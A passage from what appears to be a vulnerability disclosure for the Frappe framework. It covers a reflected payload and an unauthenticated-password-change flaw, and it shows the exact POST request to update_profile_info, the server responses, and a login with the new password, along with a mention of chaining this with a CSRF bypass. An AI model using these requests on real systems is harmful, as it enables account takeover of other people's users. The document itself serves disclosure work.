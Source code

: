 This payload is also reflected on `http://localhost:8080/app/home` although it isn't visible to user (the payload is still executed).

### **3. Password Change**
An attacker can also change the password of an authenticated user without knowing the current one. This can be achieved by sending the JSON payload `{"new_password":"0xdeadbeef"}` to the `profile_info` parameter in the `/api/method/frappe.desk.page.user_profile.user_profile.update_profile_info` endpoint.

**Request:**
```http
POST /api/method/frappe.desk.page.user_profile.user_profile.update_profile_info HTTP/1.1
Host: localhost:8080
Cookie: system_user=no; user_image=; sid=c75135de8c12dbcaa933e6f92901703828da54eb463148587d323767; full_name=test; user_id=test%40test.test
Content-Type: application/x-www-form-urlencoded
Content-Length: 44


profile_info={"new_password"%3a"0xdeadbeef"}
```

**Response:**
```http
HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Fri, 16 May 2025 09:11:03 GMT
Content-Type: application/json
<SNIP>
```
After the request is successfully sent user can log in with new password.

**Request:**
```http
POST /login HTTP/1.1
Host: localhost:8080
Content-Length: 43
Content-Type: application/x-www-form-urlencoded

cmd=login&usr=test@test.test&pwd=0xdeadbeef
```

**Response:**
```http
HTTP/1.1 200 OK
Server: nginx/1.22.1
Set-Cookie: sid=5fbcd629e3d859ba69acfd8718ae79d6dac5d40b2754dafa7f6e859a; Expires=Fri, 23 May 2025 11:14:03 GMT; Max-Age=612000; HttpOnly; Path=/; SameSite=Lax
<SNIP>
```


This vulnerability could lead to a complete takeover of the user's account when combined with the CSRF bypass.

To abuse the CSRF bypass one have to first send POST request to change the password and then the password can be also changed by GET requests as follows.
